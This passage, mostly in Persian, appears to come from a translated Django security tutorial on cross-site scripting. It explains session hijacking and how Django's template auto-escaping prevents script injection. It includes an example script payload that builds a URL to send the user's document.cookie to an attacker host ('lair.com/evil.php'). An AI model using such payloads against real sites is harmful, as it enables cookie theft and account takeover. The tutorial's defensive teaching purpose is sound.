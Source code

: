 جای تعجب نیست که مرورگر یک جعبه هشدار با پیام شوم - pwned را نشان می دهد.

<pre>
این حمله در مرورگرهای فعلی مانند آخرین کروم با شکست مواجه می‌شود، 
که پیام خطای زیر را در کنسول نشان می‌دهد: از اجرای اسکریپت جاوا اسکریپت خودداری کرد. 
. کد منبع اسکریپت در درخواست یافت شد.
</pre>

اگر نمی‌دانید که یک پیام هشدار ساده چه آسیبی می‌تواند داشته باشد، به یاد داشته باشید که
هر کد جاوا اسکریپت را می‌توان به همان شیوه اجرا کرد. در بدترین حالت، کوکی های
کاربر را می توان با وارد کردن عبارت جستجوی زیر به سایتی که توسط مهاجم کنترل می شود ارسال کرد:

```js
<script>
  var adr = 'http://lair.com/evil.php?stolen=' + escape(document.cookie);
</script>
```

پس از ارسال کوکی‌های شما، مهاجم ممکن است بتواند حمله جدی‌تری انجام دهد.

### چرا کوکی های شما ارزشمند است؟

شاید ارزش درک این را داشته باشد که چرا کوکی ها هدف چندین حمله هستند.
به زبان ساده، دسترسی به کوکی‌ها به مهاجمان اجازه می‌دهد که شما را جعل کنند و
حتی کنترل حساب وب شما را در دست بگیرند.

برای درک دقیق این موضوع، باید مفهوم **sessions** را درک کنید.HTTP بدون تابعیت است
جنگو چه یک کاربر ناشناس یا یک کاربر تأیید شده باشد، با مدیریت جلسات، فعالیت های آنها را برای مدت زمان مشخصی پیگیری می کند.

یک جلسه شامل شناسه جلسه در انتهای کلاینت، یعنی مرورگر و یک شی دیکشنری مانند است که در انتهای سرور ذخیره می شود.
شناسه جلسه یک رشته تصادفی 32 نویسه ای است که به عنوان یک کوکی در مرورگر ذخیره می شود. هر بار که یک کاربر از
یک وب سایت درخواستی می کند، تمام کوکی های او، از جمله این شناسه جلسه، همراه با درخواست ارسال می شود.

At the server end, Django maintains a session store that maps this session ID to the session
data. By default, Django stores the session data in the **django_session** database table.

هنگامی که کاربر با موفقیت وارد سیستم می شود، جلسه متوجه می شود که احراز هویت موفقیت آمیز بوده و
کاربر را پیگیری می کند. بنابراین، کوکی به یک تأیید هویت موقت کاربر برای تراکنش‌های بعدی تبدیل می‌شود.
هر کسی که این کوکی را بدست آورد می تواند از این برنامه وب به عنوان آن کاربر استفاده کند که به آن Session Hijacking می گویند.

### جچکو چگونه کمک میکند؟

شاید مشاهده کرده باشید که مثال من به دو دلیل روشی بسیار غیرمعمول برای
پیاده سازی view در جنگو بود: از الگوها برای رندر استفاده نمی کرد و کلاس های فرم استفاده نمی شد.
هر دوی آنها اقدامات پیشگیری XSS را دارند.

به‌طور پیش‌فرض، جنگو الگوهای فرار خودکار نویسه‌های ویژه HTML را ایجاد می‌کند.
بنابراین، اگر رشته جستجو را در قالب نمایش داده بودید، همه تگ ها با کد HTML بودند.
این کار تزریق اسکریپت‌ها را غیرممکن می‌کند، مگر اینکه صریحاً با علامت‌گذاری محتوا به‌عنوان امن، آنها را خاموش کنید.
